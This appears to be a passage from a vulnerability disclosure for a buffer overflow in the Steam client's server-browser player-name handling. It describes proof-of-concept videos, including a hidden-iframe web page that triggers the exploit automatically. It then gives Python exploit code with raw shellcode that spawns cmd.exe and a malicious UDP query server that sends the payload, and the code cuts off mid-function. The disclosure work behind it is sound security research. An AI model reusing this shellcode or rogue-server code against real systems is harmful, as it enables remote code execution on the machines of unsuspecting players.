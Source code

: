 ## PoC

{F395517}
**Steamclient_POC_Windows10.mp4**: Contains a video of the exploit being triggered on Windows 10 via manual interaction with the Steam server browser

{F395518}
**SteamURL_POC_Windows10.mp4**: Contains a video of the exploit being triggered on Windows 10 via a malicious web page containing a hidden iframe that will trigger the exploit automatically. In the video, Steam was not running when visiting the malicious page and it was automatically started. This also works when Steam is already running.

{F395519}
Contains the html page code used in the SteamURL video.

**Exploit code:**

```python
import logging
import socket
import textwrap


### Exploit for Server Info - Player Name buffer overflow (Steam.exe - Windows 8 and 10) #######
# More info: https://developer.valvesoftware.com/wiki/Server_queries
# Shellcode must contain valid unicode characters, pad with NOPs :)


STEAM_BASE = 0x01180000

# Shellcode: open cmd.exe
shellcode = "\x31\xc9\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x70\x14\xad\x96\xad\x8b\x58\x10\x8b\x53\x3c\x01\xda\x90\x8b\x52\x78\x01\xda\x8b\x72\x20\x90\x01\xde\x31\xc9\x41\xad\x01\xd8\x81\x38\x47\x65\x74\x50\x75\xf4\x81\x78\x04\x72\x6f\x63\x41\x75\xeb\x81\x78\x08\x64\x64\x72\x65\x75\xe2\x8b\x72\x24\x90\x01\xde\x66\x8b\x0c\x4e\x49\x8b\x72\x1c\x01\xde\x8b\x14\x8e\x90\x01\xda\x31\xf6\x89\xd6\x31\xff\x89\xdf\x31\xc9\x51\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x53\xff\xd2\x83\xc4\x0c\x31\xc9\x68\x65\x73\x73\x42\x88\x4c\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x54\x57\x31\xff\x89\xc7\xff\xd6\x83\xc4\x0c\x31\xc9\x51\x68\x64\x6c\x6c\x41\x88\x4c\x24\x03\x68\x6c\x33\x32\x2e\x68\x73\x68\x65\x6c\x54\x31\xd2\x89\xfa\x89\xc7\xff\xd2\x83\xc4\x0b\x31\xc9\x68\x41\x42\x42\x42\x88\x4c\x24\x01\x68\x63\x75\x74\x65\x68\x6c\x45\x78\x65\x68\x53\x68\x65\x6c\x54\x50\xff\xd6\x83\xc4\x0d\x31\xc9\x68\x65\x78\x65\x41\x88\x4c\x24\x03\x68\x63\x6d\x64\x2e\x54\x59\x31\xd2\x42\x52\x31\xd2\x52\x52\x51\x52\x52\xff\xd0\xff\xd7"


def udp_server(host="0.0.0.0", port=27015):
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    print("[*] Starting TSQuery UDP server on host: %s and port: %s" % (host, port))
    s.bind((host, port))
    while True:
        (data, addr) = s.recvfrom(128*1024)
        requestType = checkRequestType(data)
        if requestType == "INFO":
            response = createINFOReply()
        elif requestType == "PLAYER":
            response = createPLAYERReply()
            print("[+] Payload sent!")
        else:
            response = 'nope'
        s.sendto(response,addr)
        yield data


def checkRequestType(data):
    # Header byte contains the type of request
```